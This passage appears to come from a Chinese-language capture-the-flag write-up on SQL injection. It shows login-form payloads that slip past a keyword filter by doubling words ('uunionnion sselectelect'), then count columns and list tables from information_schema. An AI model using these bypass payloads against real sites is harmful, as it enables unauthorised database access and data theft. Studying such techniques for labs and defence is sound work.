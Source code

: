 知道了这样，我们就进行绕过，于是拼接字符，无法用order by 1来判断字段个数，我们只有使用联合查询看他是否能查出来，应该列数不太多，于是我们构造

pyload：?username=admin&password=admin’ uunionnion sselectelect 1,2%23
**这里是利用了双写绕过，它的原理是双写代码，例如:uniunionon，浏览器会过滤掉其中一个union，刚好还剩下另一个union，实现绕过。**

![在这里插入图片描述](img/258034e308bf68e12737fbeafbdfd4d9.png)报错列不一样，于是我们继续利用联合查询的性质猜测列数
![在这里插入图片描述](img/f331f80316fdf6d4a6abb2aa212d8646.png)
有三列，然后我们开始查表：?username=admin&password=admin’ uunionnion sselectelect 1,2,group_concat(table_name)ffromrom infoorrmation_schema.tables wwherehere table_schema=database()%23
